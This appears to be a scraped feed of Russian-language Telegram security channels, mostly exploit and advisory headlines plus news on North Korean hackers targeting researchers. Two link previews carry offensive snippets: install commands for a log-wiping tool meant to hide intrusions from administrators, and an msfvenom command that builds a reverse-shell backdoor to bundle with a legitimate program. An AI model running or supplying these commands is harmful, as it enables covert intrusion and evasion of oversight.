* https://www.zdnet.com/article/google-north-korean-hackers-have-targeted-security-researchers-via-social-media/

<blockquote>
Google Threat Analysis Group (TAG) выпустили отчет, в котором рассказали, что северокорейские хакеры создали своеобразную &quot;медовую ловушку&quot; для инфосек исследовтелей.

Если в обычном случае &quot;медовой ловушки&quot; в качестве приманки используется образ прекрасной незнакомки, одиноко грустящей где-то в недрах Tinder или Facebook, то в случае с инфосек экспертами это вряд ли бы прокатило. Ведь единственное, что может затмить им глаза - это информация о новой, свежей уязвимости. Этим хонгильдоновы сыны и воспользовались.

Северокорейцы создали фейковый блог, посвященный информационной безопасности, а также множество вымышленных аккаунтов в Twitter, в которых постили ссылки на материалы блога, видео с использованием эксплойтов и т.д. Далее они устанавливали контакт с настоящими инфосек исследователями и предлагали совместное взаимодействие.

В одном случае они, кстати, запостили фейковое видео про якобы работающий эксплойт свежей уязвимости CVE-2021-1647 в Windows Defender, но их быстро раскусили, после чего они стали дефендить себя же с других своих аккаунтов.

После установления контакта и использования приемов социальной инженерии хакеры из КНДР предлагали работать над совместным проектом Visual Studio, в котором, естественно, сидела вредоносная библиотека.

Само собой, что этот прием срабатывал, как мы полагаем, нечасто, в силу чего северокорейцы развернули цепочку эксплойтов 0-day уязвимостей для Chrome и Windows 10 на своем инфосек-блоге, посредством которых заражали посещающих его экспертов.

Северокорейский фейковый инфосек блог находится здесь - blog .br0vvnn .io. Ни в коем случае не заходите! Информация чисто для сведения!

Остается добавить, что один из наших редакторов около года назад чуть не поймал два трояна, посещая исключительно инфосек ресурсы. Мы бы погрешили на то, что он тайком смотрит порно, но он абсолютный гик и асексуал. Думаем на китайцев.
</blockquote>

<table><tr><td><b>→</b><a href="https://www.zdnet.com/article/google-north-korean-hackers-have-targeted-security-researchers-via-social-media/">
https://www.zdnet.com/article/google-north-korean-hackers-have-targeted-security-researchers-via-social-media/
</a>
<blockquote>
Google TAG warns security researchers to be on the lookout when approached by unknown individuals on social media.
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-26 11:53:22`

<blockquote>
[webapps] Oracle WebLogic Server 12.2.1.0 - RCE (Unauthenticated)
https://www.exploit-db.com/exploits/49479

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49479">
https://www.exploit-db.com/exploits/49479
</a>
<blockquote>
Oracle WebLogic Server 12.2.1.0 - RCE (Unauthenticated). CVE-2020-14882 . webapps exploit for Java platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-26 11:53:20`

<blockquote>
[webapps] Tenda AC5 AC1200 Wireless - 'WiFi Name &amp; Password' Stored Cross Site Scripting
https://www.exploit-db.com/exploits/49478

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49478?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49478?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Tenda AC5 AC1200 Wireless - 'WiFi Name &amp; Password' Stored Cross Site Scripting. CVE-2021-3186 . webapps exploit for Hardware platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-26 11:53:13`

<blockquote>
[webapps] Simple College Website 1.0 - 'full' Stored Cross Site Scripting
https://www.exploit-db.com/exploits/49477

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49477?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49477?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Simple College Website 1.0 - 'full' Stored Cross Site Scripting.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-26 11:53:12`

<blockquote>
[webapps] Simple College Website 1.0 - 'name' Sql Injection (Authentication Bypass)
https://www.exploit-db.com/exploits/49476

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49476?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49476?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Simple College Website 1.0 - 'name' Sql Injection (Authentication Bypass).. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-26 11:53:11`

<blockquote>
[webapps] Cemetry Mapping and Information System 1.0 - 'user_email' Sql Injection (Authentication Bypass)
https://www.exploit-db.com/exploits/49475

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49475?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49475?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Cemetry Mapping and Information System 1.0 - 'user_email' Sql Injection (Authentication Bypass).. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# cyberoffru
`2021-01-26 11:45:10`

* https://www.zdnet.com/article/google-north-korean-hackers-have-targeted-security-researchers-via-social-media/

<blockquote>
Google Threat Analysis Group (TAG) выпустили отчет, в котором рассказали, что северокорейские хакеры создали своеобразную &quot;медовую ловушку&quot; для инфосек исследовтелей.

Если в обычном случае &quot;медовой ловушки&quot; в качестве приманки используется образ прекрасной незнакомки, одиноко грустящей где-то в недрах Tinder или Facebook, то в случае с инфосек экспертами это вряд ли бы прокатило. Ведь единственное, что может затмить им глаза - это информация о новой, свежей уязвимости. Этим хонгильдоновы сыны и воспользовались.

Северокорейцы создали фейковый блог, посвященный информационной безопасности, а также множество вымышленных аккаунтов в Twitter, в которых постили ссылки на материалы блога, видео с использованием эксплойтов и т.д. Далее они устанавливали контакт с настоящими инфосек исследователями и предлагали совместное взаимодействие.

В одном случае они, кстати, запостили фейковое видео про якобы работающий эксплойт свежей уязвимости CVE-2021-1647 в Windows Defender, но их быстро раскусили, после чего они стали дефендить себя же с других своих аккаунтов.

После установления контакта и использования приемов социальной инженерии хакеры из КНДР предлагали работать над совместным проектом Visual Studio, в котором, естественно, сидела вредоносная библиотека.

Само собой, что этот прием срабатывал, как мы полагаем, нечасто, в силу чего северокорейцы развернули цепочку эксплойтов 0-day уязвимостей для Chrome и Windows 10 на своем инфосек-блоге, посредством которых заражали посещающих его экспертов.

Северокорейский фейковый инфосек блог находится здесь - blog .br0vvnn .io. Ни в коем случае не заходите! Информация чисто для сведения!

Остается добавить, что один из наших редакторов около года назад чуть не поймал два трояна, посещая исключительно инфосек ресурсы. Мы бы погрешили на то, что он тайком смотрит порно, но он абсолютный гик и асексуал. Думаем на китайцев.
</blockquote>

<table><tr><td><b>→</b><a href="https://www.zdnet.com/article/google-north-korean-hackers-have-targeted-security-researchers-via-social-media/">
https://www.zdnet.com/article/google-north-korean-hackers-have-targeted-security-researchers-via-social-media/
</a>
<blockquote>
Google TAG warns security researchers to be on the lookout when approached by unknown individuals on social media.
</blockquote>
</td></tr></table>

---

# dataleak
`2021-01-26 10:00:11`

<blockquote>
В открытый доступ был выложен дамп сервера, содержащего документы нескольких московских медицинских (стоматологических) организаций – предположительно ООО «ЮНОВа» и ООО «Клиника Здоровье». 😱

Всего выложено 120,085 файлов общим размером 248,38 Гб, в том числе договора, внутренние документы, списки пациентов, списки сотрудников и многое другое. Некоторые документы датируются 2004-2012 гг., но есть и 2019-2020 гг.

Предположительно сервер с открытым портом 3389 (MS RDP) был взломан через одну из известных уязвимостей (CVE-2019-0708), либо перебором паролей.
</blockquote>

---

# defcon_news
`2021-01-26 06:53:25`

<blockquote>
Backdoor.Win32.Wollf.c / Hardcoded Backdoor Password
https://seclists.org/fulldisclosure/2021/Jan/77

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/77">
https://seclists.org/fulldisclosure/2021/Jan/77
</a>
</td></tr></table>

---

# defcon_news
`2021-01-26 06:53:24`

<blockquote>
Backdoor.Win32.DarkKomet.bhfh / Insecure Permissions
https://seclists.org/fulldisclosure/2021/Jan/76

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/76">
https://seclists.org/fulldisclosure/2021/Jan/76
</a>
</td></tr></table>

---

# defcon_news
`2021-01-26 06:53:23`

<blockquote>
Trojan.Win32.Xocry.ff / Insecure Permissions
https://seclists.org/fulldisclosure/2021/Jan/74

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/74">
https://seclists.org/fulldisclosure/2021/Jan/74
</a>
</td></tr></table>

---

# defcon_news
`2021-01-26 06:53:23`

<blockquote>
Backdoor.Win32.Wollf.16 / Weak Hardcoded Password
https://seclists.org/fulldisclosure/2021/Jan/75

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/75">
https://seclists.org/fulldisclosure/2021/Jan/75
</a>
</td></tr></table>

---

# defcon_news
`2021-01-26 06:53:22`

<blockquote>
Backdoor.Win32.Jokerdoor (TDC Mail Spy 1.0) / Insecure Permissions
https://seclists.org/fulldisclosure/2021/Jan/73

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/73">
https://seclists.org/fulldisclosure/2021/Jan/73
</a>
</td></tr></table>

---

# defcon_news
`2021-01-26 06:53:20`

<blockquote>
Backdoor.Win32.Noknok.50 / Insecure Permissions
https://seclists.org/fulldisclosure/2021/Jan/72

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/72">
https://seclists.org/fulldisclosure/2021/Jan/72
</a>
</td></tr></table>

---

# defcon_news
`2021-01-26 06:53:19`

<blockquote>
Backdoor.Win32.Noknok.60 / Insecure Permissions
https://seclists.org/fulldisclosure/2021/Jan/71

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/71">
https://seclists.org/fulldisclosure/2021/Jan/71
</a>
</td></tr></table>

---

# defcon_news
`2021-01-26 06:53:19`

<blockquote>
Backdoor.Win32.Kraimer.11 / Missing Authentication
https://seclists.org/fulldisclosure/2021/Jan/70

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/70">
https://seclists.org/fulldisclosure/2021/Jan/70
</a>
</td></tr></table>

---

# sysadm_in_channel
`2021-01-26 05:12:39`

<blockquote>
Security Advisory: MSRPC Printer Spooler Relay (CVE-2021-1678)

https://www.crowdstrike.com/blog/cve-2021-1678-printer-spooler-relay-security-advisory/
</blockquote>

<table><tr><td><b>→</b><a href="https://www.crowdstrike.com/blog/cve-2021-1678-printer-spooler-relay-security-advisory/?utm_content=sprout&utm_medium=soc&utm_source=twittere.com/blog/cve-2021-1678-printer-spooler-relay-security-advisory/">
https://www.crowdstrike.com/blog/cve-2021-1678-printer-spooler-relay-security-advisory/?utm_content=sprout&utm_medium=soc&utm_source=twittere.com/blog/cve-2021-1678-printer-spooler-relay-security-advisory/
</a>
<blockquote>
On Patch Tuesday, January 12, 2021, Microsoft released a patch for CVE-2021-1678, an important vulnerability discovered by CrowdStrike researchers.
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-25 21:53:31`

<blockquote>
Cisco DNA Center Bug Opens Enterprises to Remote Attack
https://threatpost.com/cisco-dna-center-bug-remote-attack/163302/

via Threatpost
</blockquote>

<table><tr><td><b>→</b><a href="https://threatpost.com/cisco-dna-center-bug-remote-attack/163302/">
https://threatpost.com/cisco-dna-center-bug-remote-attack/163302/
</a>
<blockquote>
The high-severity security vulnerability (CVE-2021-1257) allows cross-site request forgery (CSRF) attacks.
</blockquote>
</td></tr></table>

---

# cibsecurity
`2021-01-25 21:13:50`

* https://threatpost.com/cisco-dna-center-bug-remote-attack/163302/

<blockquote>
❌ Cisco DNA Center Bug Opens Enterprises to Remote Attack ❌

The high-severity security vulnerability (CVE-2021-1257) allows cross-site request forgery (CSRF) attacks.

📖 Read

via &quot;Threat Post&quot;.
</blockquote>

<table><tr><td><b>→</b><a href="https://threatpost.com/cisco-dna-center-bug-remote-attack/163302/">
https://threatpost.com/cisco-dna-center-bug-remote-attack/163302/
</a>
<blockquote>
The high-severity security vulnerability (CVE-2021-1257) allows cross-site request forgery (CSRF) attacks.
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-25 17:53:12`

<blockquote>
[webapps] Klog Server 2.4.1 - Unauthenticated Command Injection (Metasploit)
https://www.exploit-db.com/exploits/49474

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49474?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49474?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Klog Server 2.4.1 - Unauthenticated Command Injection (Metasploit). CVE-2020-35729 . webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# overlamer1
`2021-01-25 16:07:28`

* https://telegra.ph/Hidemyass-ochishchaem-sistemnye-logi-01-03

<blockquote>
Hidemyass: очищаем системные логи
</blockquote>

<table><tr><td><b>→</b><a href="https://telegra.ph/Hidemyass-ochishchaem-sistemnye-logi-01-03">
https://telegra.ph/Hidemyass-ochishchaem-sistemnye-logi-01-03
</a>
<blockquote>
В этой статье мы покажем небольшой скрипт, который поможет скрыть следы своего присутствия в системе. Hidemyass - это инструмент для очистки журналов доступа, когда вы действительно хотите скрыться от администратора. Скрипт тщательно модифицирует системный журнал, удаляя несколько записей журнала вместо всего файла журнала. Кроме того, права доступа к файлу, owner/group и ctime/atime сохраняются как старый файл. Установка: &gt; git clone https://github.com/pannzh/hidemyass &gt; cd hidemyass/ &gt; make clean …
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-25 12:53:38`

<blockquote>
[webapps] Library System 1.0 - 'category' SQL Injection
https://www.exploit-db.com/exploits/49471

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49471">
https://www.exploit-db.com/exploits/49471
</a>
<blockquote>
Library System 1.0 - 'category' SQL Injection.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-25 12:53:37`

<blockquote>
[webapps] CASAP Automated Enrollment System 1.0 - 'route' Stored XSS
https://www.exploit-db.com/exploits/49470

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49470?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49470?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
CASAP Automated Enrollment System 1.0 - 'route' Stored XSS.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-25 12:53:36`

<blockquote>
[webapps] CASAP Automated Enrollment System 1.0 - 'First Name' Stored XSS
https://www.exploit-db.com/exploits/49469

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49469?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49469?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
CASAP Automated Enrollment System 1.0 - 'First Name' Stored XSS.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-25 12:53:33`

<blockquote>
[webapps] Collabtive 3.1 - 'address' Persistent Cross-Site Scripting
https://www.exploit-db.com/exploits/49468

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49468">
https://www.exploit-db.com/exploits/49468
</a>
<blockquote>
Collabtive 3.1 - 'address' Persistent Cross-Site Scripting. CVE-2021-3298 . webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-25 12:53:31`

<blockquote>
[webapps] MyBB Timeline Plugin 1.0 - Cross-Site Scripting / CSRF
https://www.exploit-db.com/exploits/49467

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49467?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49467?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
MyBB Timeline Plugin 1.0 - Cross-Site Scripting / CSRF.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# MPSIEMChat
`2021-01-25 11:36:49`

<blockquote>
Или попробовать заиспользовать неофициальный sdk https://github.com/feedb/MPSiem_addons/tree/master/mpsiemlib
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/feedb/MPSiem_addons/tree/master/mpsiemlib">
https://github.com/feedb/MPSiem_addons/tree/master/mpsiemlib
</a>
<blockquote>
реп полезностей для PT MaxPatrol SIEM. Contribute to feedb/MPSiem_addons development by creating an account on GitHub.
</blockquote>
</td></tr></table>

---

# sysadm_in_channel
`2021-01-25 08:32:50`

<blockquote>
CVE-2021-21261: Flatpak sandbox escape via spawn portal

https://github.com/flatpak/flatpak/security/advisories/GHSA-4ppf-fxf6-vxg2
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/flatpak/flatpak/security/advisories/GHSA-4ppf-fxf6-vxg2">
https://github.com/flatpak/flatpak/security/advisories/GHSA-4ppf-fxf6-vxg2
</a>
<blockquote>
GitHub is where people build software. More than 56 million people use GitHub to discover, fork, and contribute to over 100 million projects.
</blockquote>
</td></tr></table>

---

# freedomf0x
`2021-01-25 02:45:54`

<blockquote>
&#35;windows &#35;hacking

https://support.microsoft.com/en-us/topic/managing-deployment-of-printer-rpc-binding-changes-for-cve-2021-1678-12a69652-30b9-3d61-d9f7-7201623a8b25

https://www.crowdstrike.com/blog/cve-2021-1678-printer-spooler-relay-security-advisory/
</blockquote>

---

# defcon_news
`2021-01-24 20:53:35`

<blockquote>
Уязвимость во Flatpak, позволяющая обойти режим изоляции
https://www.opennet.ru/opennews/art.shtml?num&#61;54461

via OpenNews.opennet.ru: Проблемы безопасности
</blockquote>

<table><tr><td><b>→</b><a href="https://www.opennet.ru/opennews/art.shtml?num=54461">
https://www.opennet.ru/opennews/art.shtml?num=54461
</a>
<blockquote>
В инструментарии для создания самодостаточных пакетов Flatpak выявлена уязвимость (CVE-2021-21261), позволяющая обойти режим sandbox-изоляции и выполнить произвольный код в окружении основной системы. Проблема устранена в версиях 1.10.0 и 1.8.5, но позднее в исправлении всплыло регрессивное изменение, вызывающее проблемы при сборке на системах с прослойкой bubblewrap, установленной с флагом setuid. Регрессия устранена в выпуске 1.10.1 (обновление для ветки 1.8.x пока недоступно).
</blockquote>
</td></tr></table>

---

# overlamer1
`2021-01-24 14:48:47`

* https://graph.org/Svyazka-Backdoora-i-fajla-Kali-12-28

<blockquote>
Связка Backdoor'a и файла (Kali)
</blockquote>

<table><tr><td><b>→</b><a href="https://graph.org/Svyazka-Backdoora-i-fajla-Kali-12-28">
https://graph.org/Svyazka-Backdoora-i-fajla-Kali-12-28
</a>
<blockquote>
Инструмент Trojanizer использует WinRAR (SFX), чтоб сжать два файла между собой и преобразовать их в исполняемый архив SFX (.exe). SFX-архив при работе запускает оба файла (наш payload и легальное приложение одновременно). Откуда скачать? git clone https://github.com/r00t-3xp10it/trojanizer.git Далее создаем пейлоад, используя msfvenom msfvenom -p windows/meterpreter/reverse_tcp lhost&#61;192.168.1.111 lport&#61;4466 -f exe &gt; /root/Desktop/backdoor.exe Запуск Trojanizer Переходим в папку с Trojanizer и запускаем Trojanizer.sh…
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-24 04:53:04`

<blockquote>
BruteShark v1.1.5 released: single command mode was implemented. Extract Kerberos, NTLM, Cram-MD5, HTTP-Digest, FTP, Telnet passwords and more by a single command from your shell. All hashes exported as Hashcat input files. Would love to get feedbacks! https://github.com/odedshimon/BruteShark
https://www.reddit.com/r/netsec/comments/l31cbm/bruteshark_v115_released_single_command_mode_was/

via /r/netsec - Information Security News &amp; Discussion
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/odedshimon/BruteShark">
https://github.com/odedshimon/BruteShark
</a>
<blockquote>
Network Analysis Tool. Contribute to odedshimon/BruteShark development by creating an account on GitHub.
</blockquote>
</td></tr></table>

---

# R0_Crew
`2021-01-23 11:38:12`

<blockquote>
A tracing disassembler &amp; IDE for Gameboy ROMs — integrated with Sameboy for emulation &amp; debugging https://github.com/jverkoey/windfish/ &#35;reverse &#35;hardware &#35;dukeBarman
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/jverkoey/windfish/">
https://github.com/jverkoey/windfish/
</a>
<blockquote>
A tracing disassembler &amp; UI for Gameboy ROMs — integrated with Sameboy for emulation &amp; debugging. - jverkoey/windfish
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-22 21:53:51`

<blockquote>
Backdoor.Win32.Xel / Remote Authentication Buffer Overflow
https://seclists.org/fulldisclosure/2021/Jan/68

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/68">
https://seclists.org/fulldisclosure/2021/Jan/68
</a>
</td></tr></table>

---

# defcon_news
`2021-01-22 21:53:51`

<blockquote>
Backdoor.Win32.Hupigon.adef / Remote Stack Buffer Overflow
https://seclists.org/fulldisclosure/2021/Jan/69

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/69">
https://seclists.org/fulldisclosure/2021/Jan/69
</a>
</td></tr></table>

---

# defcon_news
`2021-01-22 21:53:50`

<blockquote>
Backdoor.Win32.Verify.f / Missing Authentication
https://seclists.org/fulldisclosure/2021/Jan/67

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/67">
https://seclists.org/fulldisclosure/2021/Jan/67
</a>
</td></tr></table>

---

# defcon_news
`2021-01-22 21:53:49`

<blockquote>
Backdoor.Win32.Onalf / Missing Authentication
https://seclists.org/fulldisclosure/2021/Jan/66

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/66">
https://seclists.org/fulldisclosure/2021/Jan/66
</a>
</td></tr></table>

---

# defcon_news
`2021-01-22 21:53:45`

<blockquote>
Backdoor.Win32.WinShell.30 / Remote Stack Buffer Overflow / Missing Authentication
https://seclists.org/fulldisclosure/2021/Jan/65

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/65">
https://seclists.org/fulldisclosure/2021/Jan/65
</a>
</td></tr></table>

---

# defcon_news
`2021-01-22 21:53:43`

<blockquote>
Backdoor.Win32.Zxman / Missing Authentication
https://seclists.org/fulldisclosure/2021/Jan/64

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/64">
https://seclists.org/fulldisclosure/2021/Jan/64
</a>
</td></tr></table>

---

# defcon_news
`2021-01-22 21:53:42`

<blockquote>
Backdoor.Win32.Whisper.b / Remote Stack Corruption
https://seclists.org/fulldisclosure/2021/Jan/63

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/63">
https://seclists.org/fulldisclosure/2021/Jan/63
</a>
</td></tr></table>

---

# defcon_news
`2021-01-22 21:53:41`

<blockquote>
Backdoor.Win32.Whirlpool.10 / Remote Stack Buffer Overflow
https://seclists.org/fulldisclosure/2021/Jan/62

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/62">
https://seclists.org/fulldisclosure/2021/Jan/62
</a>
</td></tr></table>

---

# defcon_news
`2021-01-22 21:53:39`

<blockquote>
Backdoor.Win32.Zombam.geq / Remote Buffer Overflow
https://seclists.org/fulldisclosure/2021/Jan/61

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/61">
https://seclists.org/fulldisclosure/2021/Jan/61
</a>
</td></tr></table>

---

# defcon_news
`2021-01-22 21:53:34`

<blockquote>
[REVIVE-SA-2021-001] Revive Adserver Vulnerabilities
https://seclists.org/fulldisclosure/2021/Jan/60

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/60">
https://seclists.org/fulldisclosure/2021/Jan/60
</a>
</td></tr></table>

---

# defcon_news
`2021-01-22 21:53:32`

<blockquote>
CVE-2020-20269 - Caret Editor v4.0.0-rc21 Remote Code Execution
https://seclists.org/fulldisclosure/2021/Jan/59

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/59">
https://seclists.org/fulldisclosure/2021/Jan/59
</a>
</td></tr></table>

---

# defcon_news
`2021-01-22 21:53:30`

<blockquote>
Re: Constructor.Win32.SMWG.a / Insecure Permissions
https://seclists.org/fulldisclosure/2021/Jan/58

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/58">
https://seclists.org/fulldisclosure/2021/Jan/58
</a>
</td></tr></table>

---

# defcon_news
`2021-01-22 15:53:32`

<blockquote>
[webapps] Atlassian Confluence Widget Connector Macro - SSTI
https://www.exploit-db.com/exploits/49465

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49465">
https://www.exploit-db.com/exploits/49465
</a>
<blockquote>
Atlassian Confluence Widget Connector Macro - SSTI. CVE-2019-3396 . webapps exploit for Multiple platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-22 11:53:36`

<blockquote>
[webapps] ERPNext 12.14.0 - SQL Injection (Authenticated)
https://www.exploit-db.com/exploits/49464

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49464">
https://www.exploit-db.com/exploits/49464
</a>
<blockquote>
ERPNext 12.14.0 - SQL Injection (Authenticated).. webapps exploit for Multiple platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-22 11:53:35`

<blockquote>
[webapps] CASAP Automated Enrollment System 1.0 - Authentication Bypass
https://www.exploit-db.com/exploits/49463

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49463">
https://www.exploit-db.com/exploits/49463
</a>
<blockquote>
CASAP Automated Enrollment System 1.0 - Authentication Bypass.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-22 11:53:32`

<blockquote>
[webapps] Library System 1.0 - Authentication Bypass Via SQL Injection
https://www.exploit-db.com/exploits/49462

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49462">
https://www.exploit-db.com/exploits/49462
</a>
<blockquote>
Library System 1.0 - Authentication Bypass Via SQL Injection.. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-22 11:53:31`

<blockquote>
[webapps] Oracle WebLogic Server 14.1.1.0 - RCE (Authenticated)
https://www.exploit-db.com/exploits/49461

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49461">
https://www.exploit-db.com/exploits/49461
</a>
<blockquote>
Oracle WebLogic Server 14.1.1.0 - RCE (Authenticated). CVE-2021-2109 . webapps exploit for Java platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-22 11:53:30`

<blockquote>
[webapps] Selea Targa IP OCR-ANPR Camera - 'addr' Remote Code Execution (Unauthenticated)
https://www.exploit-db.com/exploits/49460

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49460">
https://www.exploit-db.com/exploits/49460
</a>
<blockquote>
Selea Targa IP OCR-ANPR Camera - 'addr' Remote Code Execution (Unauthenticated).. webapps exploit for Hardware platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-22 11:53:27`

<blockquote>
[webapps] Selea Targa IP OCR-ANPR Camera - RTP/RTSP/M-JPEG Stream Disclosure (Unauthenticated)
https://www.exploit-db.com/exploits/49459

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49459?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49459?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Selea Targa IP OCR-ANPR Camera - RTP/RTSP/M-JPEG Stream Disclosure (Unauthenticated).. webapps exploit for Hardware platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-22 11:53:26`

<blockquote>
[webapps] Selea Targa IP OCR-ANPR Camera - CSRF Add Admin
https://www.exploit-db.com/exploits/49458

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49458?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49458?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Selea Targa IP OCR-ANPR Camera - CSRF Add Admin.. webapps exploit for Hardware platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-22 11:53:25`

<blockquote>
[webapps] Selea Targa IP OCR-ANPR Camera - Multiple SSRF (Unauthenticated)
https://www.exploit-db.com/exploits/49457

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49457?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49457?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Selea Targa IP OCR-ANPR Camera - Multiple SSRF (Unauthenticated).. webapps exploit for Hardware platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-22 11:53:24`

<blockquote>
[webapps] Selea Targa IP OCR-ANPR Camera - Developer Backdoor Config Overwrite
https://www.exploit-db.com/exploits/49455

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49455?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49455?utm_source=dlvr.it&utm_medium=twitter
